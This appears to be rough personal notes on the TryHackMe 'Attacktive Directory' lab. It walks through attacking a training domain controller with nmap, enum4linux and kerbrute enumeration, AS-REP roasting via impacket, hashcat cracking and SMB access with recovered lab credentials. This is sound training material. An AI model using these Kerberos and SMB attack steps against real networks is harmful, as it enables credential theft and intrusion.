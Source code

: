 # [Active Directory](https://tryhackme.com/room/attacktivedirectory)

## I. 
1. Enumeration : `nmap -A -p- -v @IP`
POrt 139/445 :
ON port we usualy have : SMB. So we can use enum4linux to attack this service.
A this point the DNS_Domain_Name was given inthe ouput of the nmap cmd :
    ```
    |   rdp-ntlm-info: 
    |   Target_Name: THM-AD
    |   NetBIOS_Domain_Name: THM-AD
    |   NetBIOS_Computer_Name: ATTACKTIVEDIREC
    |   DNS_Domain_Name: spookysec.local
    |   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
    |   Product_Version: 10.0.17763
    |_  System_Time: 2023-06-13T17:57:17+00:00
    ```

SInce we are on a local network , we should add the DNS_DOmain_Name to our /etc/hosts file.
``` 
    sudo echo 10.10.91.31 spookysec.local >> /etc/host
```


2. `enum4linux -a @IP`

3. .local

## II.
To enumerate kerberos we can use [kerbrute](https://github.com/ropnop/kerbrute/releases), we can use kerbrus(version 1.0.2 in my case). ON my Computer it is stored in my user directory. /home

``./kerbrute_linux_386  `userenum` -d spookysec.local --dc 10.10.91.31 Téléchargements/userlist-AD.txt -t 100```

or 

(in the /etc/hosts we added this line : 10.10.91.31     spookysec.local)
`` ./kerbrute_linux_386  userenum -d spookysec.local --dc spookysec.local Téléchargements/ userlist-AD.txt -t 100 ```

# III. Abusing kerberos

We use impacket to get one of the user ticket. Try for the user which you don't need password.
`python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/svc-admin -no-pass`.

From this, then we go to [hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes), we try to find which mode was used and which type of kerberos hash



Example : 
hashcat -m 18200 THM_toDelete/hash  -a 0 Téléchargements/passwordlist-AD.txt 

THe results : it will append at the end of the input file the unhashed password

# IV. Enumerate SMB

1. We can use smbclient to map remote smb shares.

-L : List of remote shares
-U : Username
-P : Password

2. List of remote shares : 
`smbclient -L 10.10.91.31 -U 'svc-admin' -p 'management2005'`

To connect to the share we want: `smbclient -U 'svc-admin' //10.10.91.31/backup`
Then type the password

After logging we just make `get name_file`

After that we just have to decode the content of the file then it is all good. --> backup@spookysec.local:backup2517860

We need to find the secredump.py file : on se met à la raçine
`find . -type f -name 'secretdump.py'`
